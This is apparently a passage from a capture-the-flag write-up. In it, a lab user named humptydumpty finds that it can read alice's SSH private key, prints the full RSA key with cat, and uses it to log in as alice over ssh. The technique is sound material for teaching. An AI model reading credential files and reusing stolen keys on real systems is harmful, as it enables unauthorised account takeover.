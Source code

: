 ```
ls: cannot access '/home/alice/.ssh/id_ecdsa_sk': No such file or directory
ls: cannot access '/home/alice/.ssh/id_ecdsa_sk.pub': No such file or directory
ls: cannot access '/home/alice/.ssh/id_ed25519': No such file or directory
ls: cannot access '/home/alice/.ssh/id_ed25519.pub': No such file or directory
ls: cannot access '/home/alice/.ssh/id_ed25519_sk': No such file or directory
ls: cannot access '/home/alice/.ssh/id_ed25519_sk.pub': No such file or directory
ls: cannot access '/home/alice/.ssh/id_xmss': No such file or directory
ls: cannot access '/home/alice/.ssh/id_xmss.pub': No such file or directory
ls: cannot access '/home/alice/.ssh/id_dsa': No such file or directory
ls: cannot access '/home/alice/.ssh/id_dsa.pub': No such file or directory
ls: cannot access '/home/alice/.ssh/identity': No such file or directory
ls: cannot access '/home/alice/.ssh/known_hosts': No such file or directory
ls: cannot access '/home/alice/.ssh/known_hosts2': No such file or directory
-rw-r--r-- 1 alice alice 401 Jul  3  2020 /home/alice/.ssh/authorized_keys
```

Looks like user account humptydumpty owns alice's ssh private rsa key. 
Reading the file, we get the ssh private key for alice.

```
humptydumpty@looking-glass:~$ cat /home/alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```

Saving alice's key as `alice_id_rsa` we can connect to her account via ssh

```
ssh alice@<IP> -i alice_id_rsa
```
